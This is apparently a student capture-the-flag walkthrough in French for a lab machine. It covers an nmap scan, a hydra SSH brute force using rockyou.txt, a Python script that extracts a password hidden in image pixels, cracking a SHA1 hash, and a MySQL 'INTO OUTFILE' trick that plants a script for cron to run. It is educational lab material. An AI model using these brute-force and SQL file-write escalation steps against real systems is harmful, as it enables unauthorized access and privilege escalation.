



# Walktrought CTF_Moyen_2020-2021 Groupe 4

## Avant Propos :

Ce CTF s'axe sur 3 catégories : 
- De la steganographie
- De la cryptographie
- Du système


## Etape 1
L'utilisateur aura accès a l'addresse IP de la machine et pourra ainsi scanner les ports de la machine à l'aide de la commande nmap 
```bash
nmap -sV -sC [ipmachine]
```

Il pourra s'apercevoir qu'un service mysql est ouvert celui sera protégé par un mot de passe et face aux tentatives de bruteforce.



## Etape 2

L'attaquant pourra essayer de brutforce avec hydra pour trouver une connexion SSH à l'aide de fichiers regroupant des logins et des mots de passe de base.

```bash
hydra -L user.txt -P rockyou.txt 10.10.219.212 ssh
```


## Etape 3

Une fois connecté sur le compte user,  l'attaquant aura accès au home de cet utilisateur et sur celui-ci il trouvera une image.
Cette image aura été modifié par un script python afin d'y dissimuler le mot de passe du port sql, le numéro : 3306.
De plus toutes les minutes sur sa console apparaitera un message lui indiquant que des scripts ont été bougé, ainsi que l'heure de la machine.

```py

from os import putenv
from PIL import Image
import numpy as np
import sys


def get_msg(input_file):
    img = Image.open(input_file)
    width, height = img.size
    data = np.array(img)

    data = np.reshape(data, width*height*4)
    # On ne regarde que le LSB de chaque pixel
    data = data & 1
    # On transoorme le tout en string de 8 bit de binaire

    """packbit function (from numpy doc)

    Packs the elements of a binary-valued array into bits in a uint8 array.

    The result is padded to full bytes by inserting zero bits at the end.
    """
    data = np.packbits(data)

    # On lit le tout et on convertit en acii 
    # jusqu'a qu'on tombe sur un caractère non pritable
    for x in data:
        l = chr(x)
        if not l.isprintable():
            break
        print(l, end='')


def main(argv):
    get_msg(argv[1])


if __name__ == "__main__":
    main(sys.argv)
```

## Etape 4


Sur ce screen, on voit la solution de la stéganographie, ainsi que le message qui va s'afficher toutes les minutes.

Le mot de passe étant hashé en SHA1, l'attaquant devra le déhashé en utilsant les rainbow table ou alors à l'aide d'un site web (https://hashtoolkit.com/).

## Etape 5

L'attaquant devra ensuite faire une demande de connexion SQL sur le port en question.

```bash
mysql -h [ip.host] -u root -p[PASSWORD]

```



Une fois connecté, il pourra voir ce que les bases de données sur la machine.
Sur celle-ci on voit qu'elle contient des scripts.


## Etape 6

Une fois connecté au port SQL avec les droits root, l'utilisateur sera en possibilité d'executer des requêtes SQL pour placer un dossier dans la data directory de mysql, qui sera ensuite deplacé dans un fichier où il sera executé par cron.

```bash
use scripts

SELECT text_script FROM script WHERE nom_script='remind_admin_psswq.sh' 
INTO OUTFILE 'pass.sh';
```


Dans son terminal, s'affichera ainsi l'heure ainsi que le mot de passe admin, il pourra ainsi accéder au compte admin. Il verra aussi qu'il existe un flag dans le home admin.

